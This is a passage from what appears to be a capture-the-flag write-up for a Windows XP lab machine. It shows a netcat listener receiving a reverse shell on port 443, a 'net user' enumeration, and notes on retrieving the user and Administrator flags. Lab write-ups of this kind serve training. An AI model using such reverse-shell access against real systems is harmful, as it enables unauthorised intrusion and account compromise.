 ------------------------------------------------------------------------------------------------------

# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>   
C:\WINDOWS\system32>net user
net user                                                                                      
                                                                                              
User accounts for \\                                                                          
-------------------------------------------------------------------------------
Administrator            Guest                    HelpAssistant            
john                     SUPPORT_388945a0          
The command completed with one or more errors.

`

There we go.  A reverse shell is available on 443.  cd to C:\Documents and Settings\john for his flag.

## Privilege Escalation

None.  The Administrator flag is up for grabs.





